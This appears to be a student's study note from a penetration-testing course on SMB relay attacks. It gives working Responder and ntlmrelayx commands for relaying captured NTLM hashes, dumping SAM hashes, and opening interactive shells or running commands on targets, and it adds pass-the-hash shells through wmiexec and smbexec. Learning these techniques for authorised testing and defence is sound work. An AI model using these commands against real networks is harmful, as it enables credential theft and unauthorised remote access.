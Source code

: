 #SMB #SMBRelayAttacks

---
# Links
TCM Video : https://academy.tcm-sec.com/courses/1152300/lectures/48477222



---

# Overview
![[Pasted image 20240909111928.png]]


![[Pasted image 20240909124143.png]]
- First hash is the LM
- second hash is the NT
- for cracking typically only need the NT portion



SEND HASHES INSTEAD OF CRACKING

Looking for on machine

![[Pasted image 20240909113244.png]]

Set up Responder 
![[Pasted image 20240909113449.png]]Switch off SMB and HTTP

Run Responder and set up ntlmrelayx
```
sudo responder -l 'nic' -dwP 
```
#ntlmrelayx
![[Pasted image 20240909113726.png]]



#ntlmrelayx 

![[Pasted image 20240909113803.png]]

```
sudo ntlmrelayx.py -tf 'target file' -smb2support
```


Use to relay repsonders hashes instead of trying to offline crack them
- need an event to occur like responder does
- dumps hashes of the SAM
- used to log into the machine with hashes


![[Pasted image 20240909114019.png]]


Can create interactive #shell with the -i

```
sudo ntlmrelayx.py -tf 'target file' -smb2support -i
```
![[Pasted image 20240909120727.png]]
Bind to shell with Netcat


Can run commands to for quick testing

```
sudo ntlmrelayx.py -tf 'target file' -smb2support -c "whoami"
```

# Other tools for shells
![[Pasted image 20240909124719.png]]

```
wmiexec.py username@ip -hashes NT:LM 
```

![[Pasted image 20240909125134.png]]

```
smbexec.py username@ip -hashes NT:LM
```
# Mitigation
![[Pasted image 20240909121816.png]]